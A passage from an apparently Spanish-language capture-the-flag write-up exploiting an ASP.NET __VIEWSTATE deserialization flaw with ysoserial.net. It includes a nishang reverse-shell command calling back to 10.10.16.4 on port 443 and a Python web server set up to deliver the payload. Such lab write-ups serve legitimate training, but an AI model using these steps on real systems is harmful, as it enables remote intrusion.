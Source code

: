 Luego de insertaremos en `__VIEWSTATE=` el contenido que obtuvimos de la ejecución de `ysoserial.net`

![20240311095120.png](20240311095120.png)

Antes de enviar la petición debemos descargar [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) del repositorio de [nishang](https://github.com/samratashok/nishang?tab=readme-ov-file#anti-virus). Para que el script de powershell se ejecuta, al final del script escribiremos `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.4 443` para obtener una shell a la hora de que se hace la consulta.  

![20240311095223.png](20240311095223.png)

Luego iniciaremos un servidor web con Python en el puerto `80`

```python
❯ python3 -m http.server 80
```
